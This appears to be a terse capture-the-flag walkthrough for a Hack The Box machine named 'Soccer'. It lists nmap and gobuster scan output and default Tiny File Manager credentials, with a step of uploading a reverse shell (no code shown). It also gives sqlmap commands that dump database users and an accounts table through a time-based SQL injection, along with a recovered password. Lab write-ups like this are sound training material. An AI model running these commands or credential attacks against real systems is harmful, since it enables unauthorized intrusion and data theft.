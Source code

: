 # Soccer

## IP = 10.10.11.194

## Nmap

### Fullscan
```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-28 05:08 EST
Nmap scan report for 10.10.11.194
Host is up (0.056s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail

Nmap done: 1 IP address (1 host up) scanned in 24.59 seconds
```

## Gobuster
```
# gobuster dir -u "http://soccer.htb/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt
===============================================================
Gobuster v3.1.0 
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/01/28 05:22:09 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
                                                                              
===============================================================
2023/01/28 05:58:12 Finished
===============================================================
```

### Default credentials on tiny: `user:12345`
### Check the `tinyfilemanager.php`:
```php
// Login user name and password
// Users: array('Username' => 'Password', 'Username2' => 'Password2', ...)
// Generate secure password hash - https://tinyfilemanager.github.io/docs/pwd.html
$auth_users = array(
    'admin' => '$2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW', //admin@123
    'user' => '$2y$10$Fg6Dz8oH9fPoZ2jJan5tZuv6Z4Kp7avtQ9bDfrdRntXtPeiMAZyGO' //12345
);
```

### Log with admin, upload revershe shell
#### Destination Folder: /var/www/html/tiny/uploads



Things to check:
- Vagrant, cloud-init
- WebSocket


### timebased sql injection in WebSocket
`sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`

[04:01:20] [INFO] retrieved: 'debian-sys-maint'@'localhost'        
[04:06:40] [INFO] retrieved: 'mysql.infoschema'@'localhost'           
[04:11:56] [INFO] retrieved: 'mysql.session'@'localhost'               
[04:16:46] [INFO] retrieved: 'mysql.sys'@'localhost'                  
[04:20:58] [INFO] retrieved: 'player'@'localhost'                    
[04:24:35] [INFO] retrieved: 'root'@'localhost'

`sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -t accounts --dump`

PlayerOftheMatch2022


### for root
https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/
